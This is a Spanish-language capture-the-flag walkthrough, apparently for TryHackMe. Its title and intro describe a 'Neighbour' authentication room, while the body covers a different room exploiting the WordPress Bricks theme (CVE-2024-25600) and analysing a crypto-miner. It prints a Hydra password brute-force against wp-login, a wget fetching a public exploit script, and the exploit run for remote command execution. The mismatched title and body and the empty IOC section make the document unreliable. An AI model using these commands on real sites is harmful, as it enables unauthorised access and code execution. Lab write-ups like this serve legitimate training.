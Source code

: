 ```yaml
---
title: "Neighbour"
platform: "THM"
publishedAt: 2025-05-12
cover: ""
preview: "Check out our new cloud service, Authentication Anywhere. Can you find other user's secrets?"
tags: []
link: "https://tryhackme.com/room/"
toc:
  - text: "🕵️ Introducción"
    id: "introduccion"
  - text: "🔍 1. Reconocimiento"
    id: "1-reconocimiento"
  - text: "🔢 2. Enumeración de servicios"
    id: "2-enumeracion-de-servicios"
  - text: "🔎 3. Análisis e  investigación"
    id: "3-analisis-e-investigacion"
  - text: "💣 4. Acceso inicial o administrativo"
    id: "4-acceso-inicial-o-administrativo"
  - text: "🔓 5. Explotación"
    id: "5-explotacion"
  - text: "🐚 6. Post-explotación"
    id: "6-post-explotacion"
  - text: "🔍 7. Proceso y servicio sospechoso"
    id: "7-proceso-y-servicio-sospechoso"
  - text: "📁 Análisis del miner"
    id: "analisis-del-miner"
  - text: "🔓 Decodificación de wallet"
    id: "decodificacion-de-wallet"
  - text: "🕵️‍♂️ 8. Asociación con grupo de amenazas"
    id: "8-asociacion-con-grupo-de-amenazas"
  - text: "🧠 9. IOCs (Indicators of Compromise)"
    id: "9-iocs-indicators-of-compromise"
  - text: "📝 10. Conclusión"
    id: "10-conclusion"
---
```


---


#            


## 🕵️ Introducción 


Check out our new cloud service, Authentication Anywhere -- log in from anywhere you would like! Users can enter their username and password, for a totally secure login process! You definitely wouldn't be able to find any secrets that other people have in their profile, right?

<details>
<summary>Herramientas y recursos externos utilizados </summary>

Hydra

> [https://github.com/Chocapikk/CVE-2024-25600](https://github.com/Chocapikk/CVE-2024-25600)

</details>


## 🔍 1. Reconocimiento


```shell
Comenzamos con un escaneo completo:
nmap -sCV -p- 10.10.72.226
```


### Puertos abiertos

- 22
- 80

---


## 🔢 2. Enumeración de servicios

- 80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.53 ((Debian))
- 22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)

---


## 🔎 3. Análisis e  investigación  


###  Enumeración de WordPress


Usando `curl` y `wpscan`, identificamos que el tema activo es **Bricks**.


Al buscar vulnerabilidades conocidas, encontramos el CVE:

- **CVE-2024-25600**: vulnerabilidad crítica que permite ejecución remota de comandos desde el editor del tema Bricks.

## 💣 4. Acceso inicial o administrativo


Tras enumerar el usuario `administrator`, ejecutamos fuerza bruta con `hydra` y obtenemos acceso:


```shell
hydra -l administrator -P rockyou.txt https://bricks.thm -s 443 -S -f \
http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:S=Location: /wp-admin/"
```


## 🔓 5. Explotación


Usamos el exploit público para el CVE-2024-25600:


```shell
wget https://raw.githubusercontent.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT/main/CVE-2024-25600.py
```


---


Al ejecutarlo con credenciales válidas, logramos ejecutar comandos remotos y abrir una **shell interactiva**:


```shell
python3 CVE-2024-25600.py --url https://bricks.thm --username administrator --password ***** --cmd id
```


## 🐚 6. Post-explotación


### 
Accedemos a `/var/www/html/` y encontramos la flag inicial:


```plain text
THM{fl46_650c844110baced87e1606453b93f22a}
```


---


## 🔍 7. Proceso y servicio sospechoso


Revisamos los procesos activos y servicios del sistema, encontrando uno sospechoso:


```shell
ubuntu.service - TRYHACK3M
ExecStart=/lib/NetworkManager/nm-inet-dialog
```


---


El proceso asociado es: `nm-inet-dialog`.


---


## 📁 Análisis del miner


Identificamos el archivo de log del minero en:


```shell
/lib/NetworkManager/inet.conf
```


Este archivo contiene líneas como:


```plain text
[*] Bitcoin Miner Thread Started
```


Y una clave codificada como:


```plain text
ID: WW1NeGNY...
```


## 🔓 Decodificación de wallet


Decodificando el valor de `ID` en base64 (tres veces), obtenemos:


```plain text
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```


Una dirección de Bitcoin válida (Bech32) usada para recibir ganancias del minero.


## 🕵️‍♂️ 8. Asociación con grupo de amenazas



Rastreando la dirección en fuentes OSINT, encontramos que ha sido usada en transacciones ligadas al grupo de ransomware **LockBit**.




---


## 🧠 9. IOCs (Indicators of Compromise)


IPs, hashes, URLs, etc.


## 📝 10. Conclusión


Este reto combina:

- Enumeración de WordPress
- Explotación real de CVE
- Escalada post-explotación
- Análisis forense y OSINT

![Bricks_Heist.png](/images/ctf/neighbour-0.webp)

